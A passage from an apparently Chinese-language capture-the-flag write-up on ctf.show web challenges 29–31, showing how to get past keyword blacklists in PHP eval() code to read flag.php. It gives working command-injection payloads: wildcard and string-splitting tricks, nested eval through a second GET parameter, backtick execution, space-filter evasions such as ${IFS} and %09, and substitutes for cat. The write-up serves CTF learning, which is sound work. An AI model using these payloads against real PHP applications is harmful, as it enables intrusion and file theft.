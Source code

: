 不仅仅是文件名, 执行的命令也可以这样绕过, 内容为空的单双引号在 shell 中会直接被忽略, 反斜杠表示命令输入没有结束, 会在下一行继续输入 (这里直接跟在反斜杠后面也算是继续输入), 通配符 `*` 表示匹配所有以 `fla` 开头的文件, 当然也就匹配了 `flag.php`, 而 `?` 表示匹配一个字符, `fla?.???` 匹配以 `fla` 开头的四个字符的文件名 + `.` + 三个字符的后缀名

另外拼接字符也能够绕过, 例如

```bash
a=fl;b=ag;cat $a$b.php # cat flag.php
```

这里由于是 eval 比较灵活, 使用 PHP 里的一些技巧例如文件包含+伪协议的操作也是可以绕过的

## web30

```php
if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
}
```

又过滤了 system php

不过还是 eval, 很灵活, 可以尝试跳出 preg_match 的限制

`http://7f626fea-3dee-431b-90a1-7c9555cd30a7.challenge.ctf.show/?c=eval($_GET[1]);&1=system('cat flag.php');`

或者用 PHP 的反引号执行命令

```
http://7f626fea-3dee-431b-90a1-7c9555cd30a7.challenge.ctf.show/?c=echo `cat fl*`;
```

## web31

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
}
```

过滤了点, 空格还有单引号

过滤空格的几种绕过方式如下

```bash
%09 (PHP 环境)
{cat,flag.php}
cat${IFS}flag.php
cat$IFS$9flag.php
cat<flag.php
cat<>flag.php
$a=$'\x20flag.php'&&cat$a (\x20 代表空格)
```

过滤 cat 的绕过方式

```bash
more
less
head
tail
nl
od
vi
vim
sort
uniq
file -f
strings
```
